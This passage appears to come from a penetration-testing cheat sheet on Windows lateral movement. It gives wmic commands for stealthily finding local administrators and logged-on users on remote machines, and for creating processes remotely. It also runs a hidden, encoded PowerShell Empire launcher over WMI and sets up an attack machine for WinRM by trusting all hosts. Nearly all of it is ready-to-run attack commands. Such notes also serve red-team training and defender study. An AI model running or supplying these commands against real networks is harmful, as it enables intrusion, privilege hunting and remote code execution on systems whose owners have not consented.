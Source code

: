 ```
```node:"$pc_name.$domain" /user:$domain\$user computersystem list brief /format:list```

NOTE: *You can also interact with classes directly with the 'path' option. For example, here's a very stealthy way to discover local admins on a remote machine (note that domain is the computer name):*


```wmic /node:ordws01 path win32_groupuser where (groupcomponent="win32_group.name=\"administrators\",domain=\"ORDWS01\"")```

Note: *Running wmic without /user will default to current user*

See who is logged on to a machine (for when you're hunting admins):

```wmic /node:ordws01 path win32_loggedonuser get antecedent  ```

Read nodes from a text file and execute the command on all of them. If you have a text file of workstations:

```wmic /node:@workstations.txt path win32_loggedonuser get antecedent ```

NOTE:  *See Nishang and Powersploit for weaponised examples*

#### WMI Process Create ####

Code execution!!

```wmic path win32_process_call create "calc.exe"```

NOTE: *Command returns the ProcessID and the ReturnValue (0 meaning no errors)*

NOTE: *By specifying /node it's incredibly easy to remotely create processes and execute commands.*

##### Launching Empire ######

###### 1. Generate the command string to execute using the "launcher" stager in Empire: ######

```powershell.exe -NoP -sta -NonI -W Hidden -Enc JABXAEMAPQBOAEUAVwAtAE8AQgBKAGUAQw...truncated...```

###### 2. From Windows remotely create a process over WMI to execute that string: ######

```wmic /node:ordws01 /user:CSCOU\jarrieta path win32_process call create "**empire launcher string here**" ```

#### WinRM ####

NOTE: *Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilizing WMI, so you can think of it as an HTTP based API for WMI.*

The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports:

1. 5985/tcp (HTTP)

2. 5986/tcp (HTTPS)

##### Initiating WinRM Session. #####

###### 1. Configure Attack Machine ######

NOTE: *Configure our attack machine to work with WinRM as well. We need to enable it and add any "victims" as trusted hosts. From an elevated PowerShell prompt, run the following two commands:*

```Enable-PSRemoting -Force  ```

```Set-Item wsman:\localhost\client\trustedhosts *  ```
```